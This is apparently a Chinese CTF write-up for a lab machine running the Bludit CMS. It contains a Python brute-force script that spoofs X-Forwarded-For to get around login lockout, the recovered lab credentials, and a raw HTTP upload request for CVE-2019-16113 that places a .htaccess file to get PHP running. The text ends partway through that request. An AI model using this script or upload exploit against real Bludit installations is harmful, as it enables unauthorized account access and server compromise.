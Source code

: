 ```
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)
 
    print('[*] Trying: {p}'.format(p = password))
 
    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }
 
    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }
 
    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)
 
    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

 

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120180633.png)

最后在第一百多位爆破出用户名`fergus`密码`RolandDeschain`

进入后台。

 

### [CVE-2019-16113](https://github.com/bludit/bludit/issues/1081)

文章说的很详细，通过更改uuid的值来指定上传文件的位置，也就是目录穿越

然后不符合图片后缀的文件会先被移动到/bl-content/tmp/temp/目录下，然后进行删除，我们利用intruder进行条件竞争

上传.htaccess文件，把jpg解析为php：

```
POST /admin/ajax/upload-images HTTP/1.1
Host: 10.10.10.191
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.§191§/admin/edit-content/blender
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------1197595220477940257964308486
Content-Length: 560
Connection: close
Cookie: BLUDIT-KEY=k35lg8hngofh6kvif51i37m0o5
 
-----------------------------1197595220477940257964308486
Content-Disposition: form-data; name="images[]"; filename=".htaccess"
Content-Type: image/jpeg
```